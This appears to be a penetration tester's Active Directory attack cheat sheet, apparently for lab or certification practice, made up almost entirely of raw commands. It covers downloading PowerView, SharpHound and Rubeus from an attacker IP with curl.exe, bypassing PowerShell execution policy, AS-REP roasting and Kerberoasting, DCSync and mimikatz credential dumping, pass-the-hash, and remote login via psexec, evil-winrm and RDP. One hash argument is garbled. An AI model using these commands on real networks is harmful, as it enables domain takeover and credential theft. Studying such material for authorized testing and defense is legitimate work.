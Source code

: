 Active Directory

## Enumeration
PowerView.ps1, SharpHound.ps1,
Rubeus.exe

powershell -ep bypass


curl.exe http://192.168.45.206/SharpHound.ps1 -o SharpHound.ps1
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All

curl.exe http://192.168.45.206/PowerView.ps1 -o PowerView.ps1
Import-Module .\PowerView.ps1
Get-NetUser | select cn,pwdlastset,lastlogon
Get-NetGroup | select cn
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion
Find-LocalAdminAccess
Find-DomainShare
Get-NetUser -SPN | select samaccountname,serviceprincipalname



## Attacks AD
curl.exe http://192.168.45.206/Rubeus.exe -o Rubeus.exe
.\Rubeus.exe asreproast /outfile:asreproast.hash /format:hashcat /domain:$DOMAIN
.\Rubeus.exe kerberoast /outfile:kerberoast.hash /format:hashcat
impacket-GetNPUsers -request -dc-ip $DC $DOMAIN/$USER:$PASS -outputfile asreproast.hash -format hashcat
impacket-GetUserSPNs -request -dc-ip $DC $DOMAIN/$USER:$PASS -outputfile kerberoast.hash

mimikatz # lsadump::dcsync
impacket-secretsdump

$password = ConvertTo-SecureString "P@ssw0rd!!" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("daveadmin", $password)
Enter-PSSession -ComputerName CLIENTWK220 -Credential $cred

crackmapexec smb $IP -u $USER -p $PASS --local-auth
crackmapexec smb $IP -u $USER -p $PASS -d $DOMAIN --shares

impacket-smbclient -hashes 32'0:$NTLM $DOMAIN/$USER@$IP
evil-winrm -i $IP -u $USER -p $PASS
impacket-psexec $DOMAIN/$USER:$PASS@$IP
impacket-mssqlclient $DOMAIN/$USER:$PASS@$IP -windows-auth
xfreerdp /u:$USER /p:$PASS /v:$IP /d:$DOMAIN /cert-ignore
rdesktop -i $IP -u $USER -p $PASS

mimikatz.exe
privilege::debug
token::elevate
lsadump::sam
sekurlsa::logonpasswords
impacket-secretsdump $DOMAIN/$USER@$IP -hashes :$NTLM -outputfile secrets
